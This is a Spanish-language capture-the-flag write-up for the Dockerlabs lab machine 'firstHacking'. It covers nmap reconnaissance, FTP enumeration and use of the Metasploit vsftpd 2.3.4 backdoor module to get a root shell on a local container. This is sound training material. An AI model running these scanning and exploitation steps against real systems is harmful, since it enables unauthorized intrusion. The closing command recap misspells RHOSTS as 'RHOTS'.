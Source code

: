 # Write-up

- **Nombre de la máquina:** `firstHacking` 
- **Plataforma:** `Dockerlabs` 
- **IP:** `172.17.0.2` 
- **SO:** `Linux` 
- **Dificultad:** `Muy Fácil`

-----------------------

## 1. RECONOCIMIENTO

El objetivo de esta fase es identificar los puntos de entrada y servicios expuestos en la máquina víctima.

#### 1.1. Verificación de Conectividad

Se lanza un `ping` para confirmar que la máquina está activa y obtener el TTL lo que puede darnos una primera pista sobre el sistema operativo.
	`ping 172.17.0.2`
Nos devuelve conectividad y un TTL=64 por lo que estamos ante una máquina Linux. 

![](Imagenes/138.png)



#### 1.2. Escaneo de Puertos

Se realiza un escaneo con **Nmap** para descubrir puertos abiertos, los servicios que corren en ellos y sus versiones.

```
sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -n -Pn 172.17.0.2 -oN port_scan.txt
```

**Puertos Descubiertos:**

| Puerto | Servicio | Versión          | Notas                                                   |
| ------ | -------- | ---------------- | ------------------------------------------------------- |
| 21     | ftp      | vsftpd 2.3.4<br> | Servidor FTP<br>protocolo de transferencia de archivos. |
-
![](Imagenes/139.png)

En este escenario, nos encontramos ante una máquina que solo tiene abierto el puerto 21. Al no haber otros puertos disponibles para explorar, la  vía de acceso potencial es realizar un un inicio de sesión en el servicio con  usuario anonimo. En caso de que no las encontráramos optaríamos por buscar vulnerabilidades conocidas para la versión `FTP`.

## 2. ENUMERACIÓN

Una vez identificados los servicios, se procede a investigarlos en profundidad en busca de vulnerabilidades o información útil.

### 21(FTP)


Utilizaremos `Nmap` para la enumeración FTP. No hay herramientas propias para este cometido. 

Nmap tiene scripts para el servicio `Ftp` que puedes consultar:

`ls /usr/share/nmap/scripts/ftp*`

![](Imagenes/140.png)
Para lanzar un escaneo a la vulnerabilidad `session null` utilizaremos `ftp-anon.nse`

```
sudo nmap -p21 --script ftp-anon 172.17.0.2
```


![](Imagenes/141.png)
No muestra que sea vulnerable a `session null`

Por agotar la vía intentamos una conexión al servicio con usuario `anonymous` y vemos que no es posible. 
`ftp anonymous 172.17.0.2`

![](Imagenes/142.png)

En este punto, como hablamos anteriormente optamos por revisar las vulnerabilidades conocidas para la versión del servicio `ftp` :`vsftp 2.3.4`

Para ello abriremos `metasploit`

`msfconsole -q`

y buscamos con el comando `search` la versión del servicio `ftp`

```
search vsftp: 2.3.4
```

![](Imagenes/143.png)
Encontramos el exploit `Backdoor Command Execution`


## Explotación 

### 3.1 Lanzamiento de exploit y acceso inicial.

Para seleccionar el exploit que queremos haremos uso del comando `use` acompañado del numero que corresponda al exploit en la columna `#`

1. `use 0`

![](Imagenes/144.png)
Continuaremos viendo las opciones necesarias para configurar nuetsrao exploit para ello podemos utilizar o `options` o `show options`
2.  `show options`
   
![](Imagenes/145.png)
Se nos desplegará una lista  en la que debemos añadir utilizando el comando `set` la información que se marque como `yes` en la columna de Required. 
En nuestro caso se trata de `RHOSTS` que hace referencia a la máquina objetivo. 

3. `set RHOSTS 172.17.0.2`

![](Imagenes/146.png)
Una vez tengamos lista nuestra configuración. Lanzaremos el exploit con el comando `run` o `exploit` 

4. `run`

Conseguimos entrar como usuario con máximos privilegios `root` con  sesión de  shell poco interactiva. 🚀

![](Imagenes/147.png)


Comandos de `metasploit`:

1. `use 0`
2. `show options`
3. `set RHOTS 172.17.0.2`
4. `run`